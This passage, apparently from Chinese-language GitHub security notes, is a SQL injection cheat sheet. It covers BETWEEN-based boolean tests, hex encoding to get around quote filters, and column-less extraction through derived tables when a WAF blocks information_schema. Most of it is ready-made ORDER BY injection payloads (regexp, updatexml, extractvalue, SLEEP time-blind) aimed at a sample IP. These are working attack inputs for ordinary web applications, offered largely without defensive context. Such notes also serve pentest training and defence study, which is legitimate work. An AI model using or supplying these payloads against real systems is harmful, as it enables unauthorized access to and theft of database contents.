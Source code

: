 **判断条件真假**
```
2 > 1   #真
0 > 1   #假
#以下用between and 实现判断真假
2 between 1 and 3   #真
3 betwwen 1 and 2   #假
```

`between and`还支持16进制,所以可以用16进制,来绕过单引号的过滤
```sql
select database() between 0x61 and 0x7a;    //select database() between 'a' and 'z';
```

### 未知列名情况下的注入利用

`mysql`版本<5.0或在利用`SQL`注入的时候遇到了WAF；

安全狗3.5版本会直接拦截关键字`information_shema`；

从而无法获取数据表的列名，这时可以**利用虚表获取数据**。
```sql
-1 union select 1,(select `4` from (select 1,2,3,4,5,6 union select * from users)a limit 1,1);
--可以通过不停的修改列名1，2，3，4来提取数据( 改这个用反引号包裹的`4`)
```
[参考文章](https://nosec.org/home/detail/2245.html)

## Order-By注入

> order by 注入是`SQL`注入中很常见的，被过滤的概率小；
> 
> 可被用户控制的数据在order by 子句后边，即order参数可控。

### 利用报错

### 利用regexp
```
http://192.168.239.2:81/?order=(select+1+regexp+if(1=1,1,0x00)) 正常
http://192.168.239.2:81/?order=(select+1+regexp+if(1=2,1,0x00)) 错误
```

### 利用updatexml
```
http://192.168.239.2:81/?order=updatexml(1,if(1=1,1,user()),1)  正确
http://192.168.239.2:81/?order=updatexml(1,if(1=2,1,user()),1)  错误
```

### 利用extractvalue
```
http://192.168.239.2:81/?order=extractvalue(1,if(1=1,1,user())) 正确
http://192.168.239.2:81/?order=extractvalue(1,if(1=2,1,user())) 错误
```

### 利用时间盲注
```sql
/?order=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) 正常响应时间
/?order=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) sleep 2秒
```
